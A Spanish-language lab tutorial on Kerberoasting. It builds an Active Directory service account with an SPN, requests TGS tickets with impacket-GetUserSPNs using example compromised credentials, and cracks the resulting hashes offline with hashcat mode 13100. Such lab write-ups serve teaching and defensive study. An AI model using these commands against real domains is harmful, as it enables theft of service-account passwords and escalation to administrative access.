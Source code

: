 # Kerberoasting

# ¿Cómo surge un ataque Kerberoating?

---

En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.

Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.

El ataque se lleva a cabo durante el envío del `KRB_TGS_REP` que va desde el KDC al cliente.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

> **Tomemos en cuenta lo siguiente:**

- Las cuentas destinadas para estos servicios suelen ser contraseñas débiles al no ser accedidas constantemente por algún usuario y para recordar más fácil se evita suelen usar contraseñas fáciles, por ende son fáciles de crackear.
- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas concernientes.
> 

Viendolo así darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debimos haber tenido acceso a una cuenta de usuario del dominio previamente.**

# Preparación de entorno

---

Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 

- **Por medio al Powershell.**

```powershell
New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
```

![Untitled](images/26bf7301-3d1e-466c-a85f-c4ed1225ef16.png)

En caso de querer borrar la cuenta puedes usar.

```powershell
Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
```

- **Por medio a interfaz gráfica.**

Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   

![Untitled](images/1575c984-f9b7-4f76-bebc-caea943fb568.png)

Luego hacemos clic en el icono de usuario en la barra superior. 

![Untitled](images/2e874867-ee7d-4d35-bc1b-c6acdd62e74f.png)

Indicamos la información correspondiente y damos clic en siguiente.

![Untitled](images/Untitled%201.png)

Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.

![Untitled](images/Untitled%202.png)

Y finalizamos.

![Untitled](images/Untitled%203.png)

Como podemos ver, el usuario se ha creado satisfactoriamente.

![Untitled](images/0d03c82d-3952-4b37-a6c3-b04bf53db8a7.png)

Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.

```powershell
setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
```

![Untitled](images/ce8eefab-5d82-4eec-9a8f-7cf0dafc54f1.png)

# Explotación

---

Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:

```powershell
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
```

Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 

```powershell
impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
```

Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.

![Untitled](images/Untitled%204.png)

Ahora **¡¡CRACKEEMOSLO!!**

# Crackeo de las contraseñas

---

Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.

```bash
hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
```

![Untitled](images/Untitled%205.png)
